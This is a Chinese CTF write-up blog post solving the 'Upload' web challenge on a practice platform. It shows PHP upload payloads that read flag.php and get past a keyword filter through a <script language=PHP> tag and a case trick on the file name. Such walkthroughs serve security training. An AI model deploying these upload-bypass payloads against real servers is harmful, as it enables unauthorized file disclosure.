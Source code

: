 ```yaml
---

layout: post
title:  CTF竞赛-文件上传
subtitle: 本文为CTF web网络攻防方向，主要记录文件上传的题目
date:   2021-03-25 18:56:31 +0800
author: "Bryce"
header-img:  'images/gallery/sappho-and-alcaeus.jpg'
tags:   [网络安全, CTF]
mathjax: true
---
```


> <cite>Title: Sappho and Alcaeus  
Creator: Lawrence Alma-Tadema  
Creator Lifespan: 1836/1912  
Creator Nationality: Dutch and British  
Date Created: 1881  
Physical Dimensions: w122 x h104.1402 cm  
Type: oil paintings; panel paintings  
Medium: oil on panel  
Artist: Sir Lawrence Alma-Tadema, R.A., O.M.  </cite>  

CTF竞赛题目类型主要包含 `Web 网络攻防` 、 `Reverse 逆向工程` 、 `Pwn 二进制漏洞利用` 、 `Crypto 密码攻击` 、 `Mobile 移动安全`  以及 `Misc 安全杂项` 这六个类别。

本文为web网络攻防方向。

## 赛题

### 初始来源

#“百度杯”CTF比赛# #九月场# #Upload#

### 赛题传送门

<a href="https://www.ichunqiu.com/battalion?t=1" target="_blank">i春秋CTF大本营</a>  

【赛题类型】—>【CTF训练】

【比赛名称】—>【全部】

【题目类型】—>【Web】

选择价值 50pt，类型为 Web，名称为【Upload】的题目：

![image-20210324144139821](/images/posts/ctf/image-20210324144139821.png)

## 解题过程

进入到靶场环境后，得到如下的初始页面：

![image-20210324144309647](/images/posts/ctf/image-20210324144309647.png)

根据题目的提示tips：flag在flag.php中，可以推测本题目是想通过上传文件，并通过执行文件读取flag.php源码，来获取flag。

先随意上传一张图片看看效果：

![image-20210324145416668](/images/posts/ctf/image-20210324145416668.png)

发现**【上传成功!】**是个超链接可以点击，点击后是查看上传文件：

![image-20210324145532512](/images/posts/ctf/image-20210324145532512.png)

由此得出，可以通过文件上传来构造读取flag.php的源码。

先构造最简单直接的版本：

```php
<?php
$file = fopen("../flag.php", "r");
echo fread($file, filesize("../flag.php"));
fclose($file)
?>
```

上传后，得到

![image-20210324150835203](/images/posts/ctf/image-20210324150835203.png)

发现并没有执行，并且**php**后缀都被过滤掉了，尝试将 **?php**  使用 **<script>** 绕过，代码中的 **.php** 使用大写绕过：

```php
<script language=PHP>
$file = fopen("../flag.".strtolower("PHP"), "r");
echo fread($file, filesize("../flag.".strtolower("PHP")));
fclose($file)
</script>
```

上传后，得到：

![image-20210324151330884](/images/posts/ctf/image-20210324151330884.png)

此时并没有输出错误，说明执行成功了，**【F12】查看网页源码**：

![image-20210324151407995](/images/posts/ctf/image-20210324151407995.png)

至此，得到flag。

## 总结

本题目相对简单，主要考察php文件读取，以及简单的针对关键字过滤的绕过技巧。
